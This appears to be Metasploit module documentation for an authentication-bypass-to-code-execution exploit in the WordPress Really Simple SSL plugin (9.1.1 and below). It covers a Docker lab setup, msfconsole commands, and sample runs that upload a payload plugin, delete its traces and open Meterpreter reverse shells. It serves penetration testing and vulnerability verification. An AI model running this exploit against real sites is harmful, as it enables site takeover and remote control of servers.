 ## Vulnerable Application

The vulnerability affects the **Really Simple SSL** plugin, version **9.1.1** and below, allowing an **authentication bypass** attack.
This can be leveraged to create a malicious administrator and gain full control of the WordPress instance.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.


### Setup Instructions

1. **Download the Docker Compose file**:
   Below is the content of the **docker-compose.yml** file to set up WordPress with the vulnerable plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration**:
    - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

3. **Start the Docker environment**:
- In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install and activate the plugin**:
- Download the vulnerable version of **Really Simple SSL**:
```bash
wget https://downloads.wordpress.org/plugin/really-simple-ssl.9.1.1.zip
```
- Extract the plugin:
```bash
unzip really-simple-ssl.9.1.1.zip
```
- Copy the plugin files to the WordPress container:
```bash
docker cp really-simple-ssl wordpress:/var/www/html/wp-content/plugins/
```
- Navigate to `http://localhost:5555/wp-admin` in your browser and activate the plugin in the WordPress admin panel.

5. **Enable Two-Factor Authentication**:
- Go to **Settings > Really Simple Security**.
- Activate **Two-Factor Authentication**.


## Verification Steps

1. **Set up WordPress** with the vulnerable **Really Simple SSL** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use exploit/multi/http/wp_reallysimplessl_2fa_bypass_rce
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the Authentication Bypass**:
- After running the module, the payload will bypass Two-Factor Authentication and attempt to create a new administrator.

## Options

### USERID

The user ID to target for 2FA bypass (default: 1)

## Scenarios

### Example 1: PHP Meterpreter (ARCH_PHP)

```bash
msf6 exploit(multi/http/wp_reallysimplessl_2fa_bypass_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected vulnerable plugin slug: really-simple-ssl
[+] The target appears to be vulnerable. Plugin really-simple-ssl appears to be vulnerable.
[*] 2FA bypass successful. Uploading plugin...
[*] Executing the payload at /wp-content/plugins/wp_1ftvf/ajax_pottw.php...
[*] Sending stage (40004 bytes) to 172.18.0.3
[+] Deleted ajax_pottw.php
[+] Deleted wp_1ftvf.php
[+] Deleted ../wp_1ftvf
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.18.0.3:37730) at 2024-11-18 20:07:17 +0100

meterpreter > sysinfo 
Computer    : a8dddfbbb9e2
OS          : Linux a8dddfbbb9e2 5.15.0-125-generic #135-Ubuntu SMP Fri Sep 27 13:53:58 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter >
```

### Example 2: Linux Command Shell (ARCH_CMD)

```bash
msf6 exploit(multi/http/wp_reallysimplessl_2fa_bypass_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected vulnerable plugin slug: really-simple-ssl
[+] The target appears to be vulnerable. Plugin really-simple-ssl appears to be vulnerable.
[*] 2FA bypass successful. Uploading plugin...
[*] Executing the payload at /wp-content/plugins/wp_3wbfa/ajax_gjreh.php...
[*] Sending stage (3045380 bytes) to 172.18.0.3
[+] Deleted ajax_gjreh.php
[+] Deleted wp_3wbfa.php
[+] Deleted ../wp_3wbfa
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.18.0.3:50344) at 2024-11-18 20:12:00 +0100

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-125-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
